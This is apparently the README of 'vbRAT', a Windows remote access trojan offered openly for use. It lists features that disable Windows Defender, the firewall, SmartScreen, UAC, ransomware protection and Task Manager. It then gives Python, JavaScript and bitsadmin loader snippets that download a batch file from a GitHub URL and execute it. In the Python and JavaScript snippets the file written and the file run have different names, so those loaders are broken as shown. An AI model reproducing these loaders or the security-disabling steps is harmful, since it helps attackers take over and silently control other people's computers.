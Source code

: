 # vbRAT

<a href="https://open.spotify.com/user/31d72u7kl45enzfmzzjsdygltowq">
<img alt="spotify" src="https://img.shields.io/badge/-Spotify-000000?logo=Spotify&logoColor=fff"/> 
<a href="https://soundcloud.com/4ksr">
<img alt="soundcloud" src="https://img.shields.io/badge/-SoundCloud-000000?logo=SoundCloud&logoColor=fff"/>
<a href="https://t.me/oksr1">
<img alt="Telegram" src="https://img.shields.io/badge/-Telegram-000000?logo=Telegram&logoColor=fff"/>
<a href="https://discord.gg/9YV8BHj4Jq">
<img alt"Discord" src="https://img.shields.io/badge/-Discord-000000?logo=Discord&logoColor=fff"/>


---
## Defender disabler 

---
## disable defender 
 -  PUAProtection 
 -  Automatic Sample Submission
 -  Windows FireWall
 -  Windows Smart Screen(Permanently)
 -  Disable Quickscan
 -  Add exe file  to exclusions in defender settings
 -  Disable Defender Notification (Added Recently)
 -  Disable UAC(Reboot Required)
 -  Disable Ransomware Protection
 -  Disable TaskManager
 -  Disable registry etc..
---


- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('vbrat.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('vbrat.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat "vbrat.bat"
start vbrat.bat
```

